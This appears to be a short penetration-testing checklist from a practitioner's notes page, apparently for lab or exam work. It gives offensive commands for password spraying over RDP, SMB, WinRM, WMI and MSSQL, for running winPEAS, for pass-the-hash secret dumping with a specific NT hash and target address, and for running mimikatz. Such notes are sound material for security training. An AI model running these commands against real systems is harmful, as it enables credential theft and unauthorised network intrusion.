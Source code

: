 # Penetration Test Checklist



## Web Application Testing



## Initial Compromise of Network

* [ ] nmap scan of internal network
* [ ] smb shares



## Harvested a New Credential&#x20;

### Spray Passwords

* ```shell-session
  $ hydra -l "yoshi" -p 'Mushroom!' -M ips.txt rdp
  ```
* ```shell-session
  $ netexec smb ips.txt -u users.txt -p passwords.txt 
  ```
* ```shell-session
  $ netexec winrm ips.txt -u users.txt -p passwords.txt
  ```
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec wmi ips.txt -u users.txt -p passwords.txt 
  </strong></code></pre>
* <pre><code><strong>$ netexec mssql ips.txt -u users.txt -p passwords.txt 
  </strong></code></pre>



## Popped a new Shell

#### Enumerate

* <pre><code><strong>$ .\winPEASx64.exe
  </strong></code></pre>

#### (PWNED) - Dump Secrets

* <pre class="language-shell"><code class="lang-shell"><strong>$ proxychains impacket-secretsdump -hashes ":e728ecbadfb02f51ce8eed753f3ff3fd" celia.almeda@10.10.85.142
  </strong></code></pre>
* ```powershell
  $ mimikatz
  ```

## Privilege Escalation

* [ ] PayloadAllTheThings&#x20;

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md" %}

## Lateral Movement

*
